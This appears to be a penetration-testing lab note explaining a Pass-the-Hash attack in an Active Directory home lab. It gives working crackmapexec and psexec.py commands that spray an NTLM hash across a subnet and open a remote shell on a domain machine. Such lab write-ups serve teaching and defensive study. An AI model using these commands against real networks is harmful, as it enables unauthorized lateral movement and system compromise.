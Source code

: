 # Pass the Hash Attack

In Pass the Password attack, we used the cleartext password of `Bruce Wayne` to authenticate to `FLASH`. Obtaining plaintext passwords are rare, and if Passwords are strong then cannot be easily cracked. <br>
In situations like these, we can actually pass the hash that we obtained to successfully authenticaate to other machines on the domain.

### PASS THE HASH DEFINITION

A Pass-the-Hash (`PtH`) attack is a technique where an attacker captures a password hash (as opposed to the password characters) and then passes it through for authentication and lateral access to other networked systems. <br>
With this technique, the attacker doesn’t need to decrypt the hash to obtain a plain text password.

### PASS THE HASH ATTACK LAB

Just like we used `crackmapexec` to pass the cleartext password in Pass the Password attack. Similarly we can use the same tool to pass hashes too.<br>

```
crackmapexec smb 192.168.31.0/24 -u batman -d HERO.local -H 64f12cddaa88057e06a81b54e73b949b
```

`crackmapexec` tool will pass the hash throughout the specified Subnet and check whether other machines can be accessed using Bruce Wayne's USERNAME and HASH.<br>
`crackmapexec` will return following status:
1. The SUCCESSFULL machines with a "Pwn3d!!" status.
2. The UNSUCCESFULL machines with a "STATUS LOGON FAILURE" status.

![[pth Pwned.png]]

Since `Bruce Wayne` is the Local Admin of `FLASH`, it returns a `Pwn3d!` status. <br>
Now that we got the list of machines, we can gain an interactive shell using `psexec`<br>

```
psexec.py HERO/batman:@192.168.31.145 -hashes aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```
`-hashes` : hashes should be provided in `LMHASH:NTHASH` format.<br>

![[shell PTH.png]]

